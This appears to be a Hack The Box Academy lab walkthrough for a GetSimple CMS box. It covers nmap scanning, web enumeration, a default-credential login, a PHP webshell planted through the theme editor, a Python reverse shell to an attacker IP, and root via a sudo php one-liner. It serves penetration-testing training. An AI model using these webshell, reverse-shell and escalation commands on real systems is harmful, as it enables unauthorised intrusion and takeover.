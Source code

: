 # Knowledge Check  

[Getting Started - Knowledge Check](https://academy.hackthebox.com/module/77/section/859)  

## Service Scanning  

>The `-sC` parameter to specify that Nmap scripts should be used to try and obtain more detailed information. 
>The `-sV` parameter instructs Nmap to perform a version scan.
>In this scan, Nmap will fingerprint services on the target system and identify the service protocol, application name, and version. The version scan is underpinned by a comprehensive database of over 1,000 service signatures.
>Finally, `-p-` tells Nmap that we want to scan all 65,535 TCP ports.
>[Service Scanning](https://academy.hackthebox.com/module/77/section/726)  

```
sudo nmap -sCV -A -O 10.129.42.249
```  

>NMAP Output  

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4c:73:a0:25:f5:fe:81:7b:82:2b:36:49:a5:4d:c8:5e (RSA)
|   256 e1:c0:56:d0:52:04:2f:3c:ac:9a:e7:b1:79:2b:bb:13 (ECDSA)
|_  256 52:31:47:14:0d:c3:8e:15:73:e3:c4:24:a2:3a:12:77 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Welcome to GetSimple! - gettingstarted
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/admin/
```  

## Web Enumeration  

>Open the target on port 80 site `http://10.129.42.249/` in Firefox browsers.  

![getting-started-web-enum](images/getting-started-web-enum.PNG)  

>Add the DNS host name to `/etc/hosts`.

```
sudo vi /etc/hosts
```  

>Check content of `Robots.txt` file on target web application.

```
curl http://gettingstarted.htb/robots.txt
```

>Output confirm path `/admin`.  

>Grab web banners.  

```
curl -IL http://gettingstarted.htb/admin/index.php
```  

```
whatweb http://gettingstarted.htb/admin/index.php
```  

>Test `/admin` web path discovered from nmap scan.
>On admin login portal test default credentials `admin:admin` as username and password.

>Identified the version of web application as `GetSimple CMS 3.3.15`.

## Public Exploits  

>Searching for working exploit.  
>[Finding Public Exploits](https://academy.hackthebox.com/module/77/section/843) doing online research and examining the target services identified.  

>Using `searchsploit` on kali.

```
searchsploit GetSimple CMS 3.3
```  

>Google Search `getsimple cms rce` for Remote Code Execution exploits in GetSimple CMS.  

[GetSimple CMS v3.3.16 - Remote Code Execution (RCE)](https://www.exploit-db.com/exploits/51475)  

### MetaSploit

>Search msfconsole for exploits.

```
sudo msfconsole
search getsimple cms

use exploit/unix/webapp/get_simple_cms_upload_exec
```

>Failed to gain working exploit with MSFConsole. 

## Shells  

>Web Application Edit Theme  
>Enumerating the target application finding the Edit Theme is php code.
>Replace the theme with PHP webshell - [Types of Shells](https://academy.hackthebox.com/module/77/section/725)  

```
<?php system($_REQUEST["cmd"]); ?>
```

>Insert above into the theme editor code.

![get-simple-theme-edit-rce](images/get-simple-theme-edit-rce.png)  

>Save the theme and go back to landing page to test webshell RCE.

![get-simple-webshell-rce](images/get-simple-webshell-rce.png)  

>Webshell commands to enumerate target.  

```
http://gettingstarted.htb/?cmd=whoami
http://gettingstarted.htb/?cmd=which+python3
```

### Python3 Reverse Shell  

>Identified Python3 on target, and setting up for reverse shell.
>Netcat on port 443.

```
rlwrap nc -nvlp 443
```

>Send webshell command through burp proxy, to encode the Python3 Reverse Shell code.  

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.140",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![burp-proxy-encode-python3-revshell](images/burp-proxy-encode-python3-revshell.png)  

>Located the user level flag, `cat /home/mrb3n/user.txt`  

## Privilege Escalation  

>Obtained low privilege access to the target as non root/admin user.  

>[PrivEsc Checklists](https://academy.hackthebox.com/module/77/section/844):  

1. Enumeration Scripts
2. Kernel Exploits
3. Vulnerable Software
4. User Privileges/Permissions
5. Scheduled Tasks
6. Exposed Credentials
7. SSH Keys  

>Enumeration of the local target and user Privileges or Permissions.  

```
sudo -l
```  

>Output from sudo check.

```
Matching Defaults entries for www-data on gettingstarted:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on gettingstarted:
    (ALL : ALL) NOPASSWD: /usr/bin/php
```  

>Look for ways to exploit it to get a shell as the root user, using the [GTFObins resources](https://gtfobins.github.io/)  

>Sudo Exploit with [PHP privileges](https://gtfobins.github.io/gtfobins/php/#sudo)

```
CMD="/usr/bin/bash"
sudo php -r "system('$CMD');"
```

>Root privilege access obtained.

>located the root user flag file, `cat /root/root.txt`

## Appendix  

>No file transfer to the target was required to exploit or obtained privileges.

>[Transferring Files](https://academy.hackthebox.com/module/77/section/849)



